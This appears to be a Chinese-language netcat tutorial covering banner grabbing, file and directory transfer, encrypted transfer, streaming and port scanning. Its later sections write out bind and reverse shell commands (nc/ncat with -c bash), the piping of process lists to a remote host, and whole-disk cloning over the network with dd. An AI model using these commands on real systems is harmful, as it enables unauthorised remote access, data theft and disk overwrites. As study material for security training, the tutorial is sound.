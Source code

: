 # 基本工具-NETCAT

## 应用

* telnet/banner信息
* 传输文本信息
* 传输文件/目录
* 加密传输文件
* 远程控制/木马
* 加密所有流量
* 流媒体服务器
* 远程克隆硬盘

## 使用

作为客户端: nc -nv {服务端ip地址} {服务端端口}
作为服务端: nc -lp {服务端端口}

### 实战一

连接pop3邮箱服务器

* ping pop3.163.com
* nc -vn 220.181.12.110 110
* USER <邮箱user,需base64编码>

连接smtp邮箱服务器

* ping smtp.163.com
* nc -vn 220.181.12.15 25
* AUTH LOGIN
* <邮箱user>

连接web服务

* nc -nv {web服务器ip地址} 80端口
* head /

扩展:
base64编码

```
base64
moluo22h@163.com
```

### 实战二:传输文本信息

服务端:nc -l -p 4444

客户端:nc -nv {服务端ip地址} 4444



远程电子取证信息收集

ls -l | nc -nv {服务端ip地址} {服务端端口}

nc -l -p 333 > ps.txt

ps aux | nc -nv 10.1.1.12 333 -q 1



传输文件

接收文件服务端: nc -lp {服务端端口} >1.mp4

发送文件客户端: nc -nv {服务端ip地址} {服务端端口} <1.mp4 -q 1

或

nc -lp {服务端端口}< a.mp4 -q 1 

nc -nv {服务端ip地址} {服务端端口} >1.mp4



传输目录

A: tar -cvf - music/ | nc -lp 333 -q 1

B: nc -nv 1.1.1.1 333 | tar -xvf - 



加密传文件

服务端解密接收: nc -lp 333 | mcrypt --flush -Fbqd -a rijndadl-256 -m ecb >1.mp4

客户端加密发送: mcrypt --flush -Fbq -a rijndadl-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1



NC-流媒体服务

A: cat 1.mp4 | nc -lp 333

B:nc -nv {服务端ip} {服务port} | mplayer -vo xll -cache 3000 -



NC-端口扫描

tcp端口探测:nc -nvz {ip地址} {起始端口}-{结束端口}

udp端口探测:nc -vnzu {ip地址} {起始端口}-{结束端口}



NC-远程克隆硬盘

硬盘接收端A:nc -lp 333 | dd of=/dev/sda

硬盘发送端B:dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1

远程电子取证,可以将目标服务器硬盘远程复制,或者内存



NC-远程控制

正向

被控服务器A:nc -lp 333 -c bash

B: nc 1.1.1.1 333

反向

A:nc -lp 333

被控客户端B: nc 1.1.1.1 333 -c bash

> windows用户把bash改成cmd

3389:远程桌面端口



NC - NCAT

Nc缺乏加密和身份验证的能力,Ncat弥补了其不足,Ncat包含于nmap工具包中

被控端A: ncat -c bash --allow {允许连接的ip} -vnl 333 --ssl

B: ncat -nv {被控端ip} 333 --ssl

> nc版本很多,不同版本之间差别可能很大.不同系统/平台的nc参数功能不尽相同












